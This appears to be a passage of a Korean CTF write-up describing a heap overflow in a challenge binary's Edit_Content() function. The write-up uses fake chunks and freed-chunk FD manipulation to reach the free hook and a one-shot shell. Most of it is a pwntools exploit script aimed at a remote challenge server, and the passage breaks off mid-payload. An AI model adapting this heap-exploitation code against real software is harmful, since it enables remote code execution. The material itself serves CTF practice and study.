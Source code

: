 대충 손퍼징 때려보니 `Edit_Content()`에서 힙 오버가 났다.

`v8 = malloc()` 할 때, 사이즈설정을 잘못해줘서, 아래 `memcpy`에서 다음청크 헤더정도를 덮을 수 있는 오버가 난다.

`Fake Chunk` 만들어서 청크 겹치게 만들고 `Freed Chunk`의 `FD` 조작해서 프리훅 할당받고, 원샷으로 쉘을 획득했다.

## Exploit

```python
from pwn import *

p = remote("3.36.184.9", 5555)
#p = process("./file-v")
#p = process("./file-v_patched")
l = ELF('./libc-2.27.so')

def create(_size, _filename):
    p.sendafter("> ", "c")
    p.sendafter(": ", str(_size))
    p.sendafter(": ", _filename)

def select(_filename):
    p.sendafter("> ", 'b')
    p.sendafter(": ", _filename)

def back(_opt=None):
    p.sendafter("> ", "b")
    if _opt:
        p.sendafter("> ", _opt)

def edit_filename(_len, _filename):
    p.sendafter("> ", '1')
    p.sendafter(": ", str(_len))
    p.sendafter(": ", _filename)

def edit_content(_size, _filecontent):
    p.sendafter("> ", '4')
    p.sendafter(": ", str(_size))
    p.sendafter(": ", _filecontent)

def show_content():
    p.sendafter("> ", '3')

create(1, 'a')
select('flag')
edit_content(46, '\\xde'*(43-0x10) + p64(0x21) + p64(0) + "\\x61")
p.sendafter("> ", '5')
back()

select('a')
edit_filename(1, "a")
edit_content(100, 'b' + p64(0)*3 + p64(0x51))

back("N")
pay = p64(0xdadadadadadadada)
pay += p64(0x11)

select(pay*0x80 + p64(0) + p64(0x801))
select('a')
edit_content(100, 'q')

pay = 'qqqqqq'
pay += p64(0)
pay += p64(0x501)
```